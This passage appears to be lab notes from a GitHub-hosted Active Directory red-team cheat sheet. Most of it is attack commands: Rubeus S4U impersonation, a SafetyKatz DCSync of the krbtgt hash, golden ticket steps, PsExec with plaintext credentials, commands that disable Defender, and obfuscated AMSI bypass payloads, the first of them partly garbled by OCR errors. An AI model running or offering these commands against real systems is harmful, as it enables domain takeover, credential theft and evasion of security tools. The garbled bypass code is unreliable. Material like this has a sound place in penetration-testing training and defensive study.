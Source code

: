 ##### Rubeus

```powershell
Rubeus.exe hash /password:Password@123! /user:devuser /domain:us.techcorp.local 

Rubeus.exe s4u /user:devuser /rc4:539259E25... /impersonateuser:administrator /msdsspn:ldap/us-dc.us.techcorp.local /domain:us.techcorp.local /ptt 

.\SafetyKatz.exe "lsadump::dcsync /user:us\krbtgt" "exit" 
```

### Golden Ticket 

##### Methodology/Steps

> 1. Get a Powershell session as a **DA** using **Over PtH** attack
>
> 2. Create a **New-PSSession** attaching to the **DC**
>
> 3. Enter the new session using **Enter-PSSession** 
>
> 4. Bypass the *AMSI*  and exit.
>
> 6. Load **Mimikatz.ps1** on the new session using **Invoke-command**
>
> 7. Enter the new session using **Enter-PSSession** *again*
>
> 8. Now we can execute mimikatz on the DC
>
> 9. Keep note of **krbtgt** hash
>
> 10. Now go to any **"non domain admin"** account
>
> 11. Load **Mimikats.ps1** 
>
> 12. Now we can create a ticket using the DC **krbtgt** hash 
>
> 13. Now we can access any service on the DC; Example **`ls \\dc-corp\C$`** or 
>
>     ```powershell
>       PsExec64.exe \\prodsrv.garrison.castle.local -u GARRISON\prodadmin -p Password1! cmd
>     ```

---

##### Invoke-Mimikatz

```powershell
# Disable Defender [ Important ]
Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPreference -DisableIOAVProtection $true

# AMSI bypass [ Important ]
sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{O}"-F'F', 'rE' ) ) 3; ( GeT-VariaBle ( "1Q2U" + "zX" )  -VaL_s+)."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{@}{5}" -f'Util', 'A', 'Amsi','.Management.', 'utomation.','s', 'System' ))."g`etf`iE1D"( ( "{O}{2}{1}" -f'amsi','d','InitFaile' ),("{2}{4}{O}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"(${n`ULl},${t`RuE} )

S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )

# Execute mimikatz on DC as DA to get krbtgt hash
```